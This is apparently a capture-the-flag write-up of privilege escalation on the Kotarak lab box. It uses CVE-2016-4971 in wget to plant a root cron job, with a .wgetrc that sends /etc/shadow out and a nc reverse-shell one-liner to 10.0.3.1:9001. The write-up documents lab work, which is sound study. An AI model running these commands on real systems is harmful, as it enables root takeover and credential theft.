

# 25 - PrivEsc 2


# /root
```
atanas@kotarak-dmz:/tmp/tmp.YARXOUrZeO$ ls -l /root/
total 8
-rw------- 1 atanas root 333 Jul 20  2017 app.log
-rw------- 1 atanas root  66 Aug 29  2017 flag.txt
```
# flag.txt
```bash
atanas@kotarak-dmz:/root$ cat flag.txt 
Getting closer! But what you are looking for can't be found here.
```

# app.log
```
atanas@kotarak-dmz:/tmp/tmp.YARXOUrZeO$ cat /root/app.log 
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
```


# Container 10.0.3.133


# Authbind is installed


Authbind allows unprivileged users to open ports that require superuser privileges. Ports 0 - 1023 are normally privileged and reserved for programs that are run as the root user.
We can open port 80 to check if wget is making requests to the box


# Checking if archive.tar.gz is still requested.
```bash
atanas@kotarak-dmz:/tmp/tmp.YARXOUrZeO$ authbind  python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 ...
10.0.3.133 - - [01/Jun/2021 08:48:01] code 404, message File not found
10.0.3.133 - - [01/Jun/2021 08:48:01] "GET /archive.tar.gz HTTP/1.1" 404 -
```

We know from app.log that client is wget, let's check if there is any vulnerability with this wget version


# Searchsploit


# [Exploit](https://www.exploit-db.com/exploits/40064)
```
=============================================
- Release date: 06.07.2016
- Discovered by: Dawid Golunski
- Severity: High
- CVE-2016-4971
=============================================


I. VULNERABILITY
-------------------------

GNU Wget < 1.18       Arbitrary File Upload / Potential Remote Code Execution
```

This exploit requires 3 programs running simultaneously. It is achievable with tmux

Run tmux with the following environment variables

```
$ rows=xx colums=yy TERM=zz tmux
```
we can find these values simply by typing 

```
$ stty -a
$ echo $TERM
```

otherwise tmux won't run properly

# create .wgetrc and open the ftp server
```
attackers-server# mkdir /tmp/ftptest
attackers-server# cd /tmp/ftptest

attackers-server# cat <<_EOF_>.wgetrc
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
_EOF_

attackers-server# sudo pip install pyftpdlib # it's already installed on the box, besides htb boxes aren't allowed to go to the internet
attackers-server# authbind python -m pyftpdlib -p21 -w
```


# PoC [wget-exploit.py](https://www.exploit-db.com/exploits/40064)

We want a reverse shell of course, so let's make some changes.
```
ROOT_CRON = "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.3.1 9001 >/tmp/f \n"
```

After opening the nc listener on port 9001 we should be good to run the exploit now.
```bash
atanas@kotarak-dmz:/tmp/ftptest$ authbind  python wget-exploit.py
```


On the top, there is the verbose output of wget-exploit.py and on the bottom we got root connected to us